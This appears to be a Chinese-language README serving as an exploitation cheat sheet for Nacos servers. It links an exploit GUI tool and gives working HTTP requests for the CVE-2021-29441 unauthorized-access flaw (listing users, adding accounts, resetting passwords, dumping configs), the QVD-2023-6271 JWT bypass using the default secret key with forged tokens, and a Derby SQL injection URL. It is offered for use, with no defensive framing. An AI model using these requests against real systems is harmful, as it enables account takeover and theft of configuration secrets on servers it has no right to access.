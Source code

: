 

# 利用工具下载地址

```
https://github.com/charonlight/NacosExploitGUI/releases/download/v6.0/NacosExploitGUI_v4.0.jar
```



# CVE-2021-29441未授权漏洞

## 查看用户

```
GET /nacos/v1/auth/users?pageNo=1&pageSize=2
...
User-Agent: Nacos-Server
```



## 新增账户

```
POST /nacos/v1/auth/users

User-Agent: Nacos-Server
...

username=crow&password=crow
```



## 修改密码

```
PUT /nacos/v1/auth/users?accessToken=

User-Agent: Nacos-Server
...

username=nacos&newPassword=nacos
```



## 读取配置文件

```
GET /nacos/v1/cs/configs?search=accurate&dataId=&group=&pageNo=1&pageSize=99
或
GET /nacos/v1/cs/configs?search=blur&dataId=&group=&pageNo=1&pageSize=99

User-Agent: Nacos-Server
...
```





# QVD-2023-6271身份绕过漏洞

使用网站：https://jwt.io/

PAYLOAD改为

```
{
  "sub": "nacos",
  "exp": 1678899909
}
```

时间戳需要转换为未来时间

https://tool.lu/timestamp/



VERIFY SIGNATURE打钩且填入key

```
SecretKey012345678901234567890123456789012345678901234567890123456789
```

如下：

![image-20230423150609372](readme/image-20230423150609372.png)





登录改包，新增：

```
POST /nacos/v1/auth/users/login HTTP/1.1
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY4MjMxNDkyN30.xaXvkLYsL0ORhLIRTrnHeogx8RSGG55qzLJXNuobrPc
...

username=admin&password=admin
```



获取以下格式返回包

```
HTTP/1.1 200 
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Content-Security-Policy: script-src 'self'
Set-Cookie: JSESSIONID=D90CF6E5B233685E4A39C1B1BDA9F185; Path=/nacos; HttpOnly
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTkwOX0.Di28cDY76JCvTMsgiim12c4pukjUuoBz6j6dstUKO7s
Content-Type: application/json
Date: Wed, 15 Mar 2023 14:13:22 GMT
Connection: close
Content-Length: 197


{"accessToken":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTkwOX0.Di28cDY76JCvTMsgiim12c4pukjUuoBz6j6dstUKO7s","tokenTtl":18000,"globalAdmin":true,"username":"nacos"}
```



提取accessToken，重新登录，修改返回包即可登录





#  Nacos Derby SQL注入漏洞 (CNVD-2020-67618)

```
/nacos/v1/cs/ops/derby?sql=select * from users
```

